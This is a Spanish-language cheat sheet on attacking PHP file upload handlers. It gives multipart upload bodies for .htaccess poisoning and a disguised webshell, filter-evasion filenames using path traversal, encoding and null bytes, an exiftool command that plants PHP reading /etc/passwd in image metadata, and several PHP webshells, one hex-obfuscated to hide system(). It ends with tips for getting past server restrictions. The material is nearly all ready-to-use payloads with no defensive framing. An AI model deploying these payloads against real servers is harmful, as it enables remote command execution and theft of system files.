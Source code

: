 
---

#### **1. .htaccess Poisoning**
Aprovechamiento de archivos `.htaccess` para ejecutar código PHP en servidores mal configurados.

**Paso 1: Subida del archivo .htaccess**
```php
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess" 
Content-Type: text/plain

AddType application/x-httpd-php .test 
```

**Paso 2: Subida de un archivo PHP disfrazado**
```php
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.test" 
Content-Type: application/x-php

<?php
    system($_GET['cmd']);
?>
```

---

#### **2. Técnicas de Evasión en la Subida**
Burlando filtros de extensión y nombre de archivo:

- **Path Traversal:**  
  ```bash
  ../shell.php
  ```
- **Caracteres de Codificación:**  
  ```bash
  %2e%2e%2fshell.php
  ```
- **Null Byte Injection:**  
  ```bash
  shell.php%00.jpg
  ```
- **Metadatos en Imágenes (Exiftool):**  
  ```bash
  exiftool -comment="<?php echo 'LOOK HERE' . file_get_contents('/etc/passwd'); ?>" background.png
  ```
  
---

#### **3. Webshells en PHP** 
Diversos métodos para obtener ejecución remota de comandos:

- **Webshell simple con backticks (`):**  
  ```php
  <?=`$_GET[0]`?>
  ```
- **Webshell clásico con `system`:**  
  ```php
  <?php
      $c = $_GET['cmd'];
      echo `$c`;
  ?>
  ```
- **Ejecución directa con `system()`:**  
  ```php
  <?php
      "system"("id");
  ?>
  ```
- **Ejecución con encoding hexadecimal (obfuscación):**  
  ```php
  <?php
      "\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
  ?>
  ```

---

#### **Consejos de Uso:**
- **Verifica siempre la extensión permitida** en el servidor.  
- **Prueba múltiples combinaciones de extensión y nombre** para evadir restricciones.  
- **Aprovecha los filtros de contenido mal configurados**.  
- **Cambia el tipo de contenido y la codificación** para ver si el servidor lo interpreta como PHP.  

---
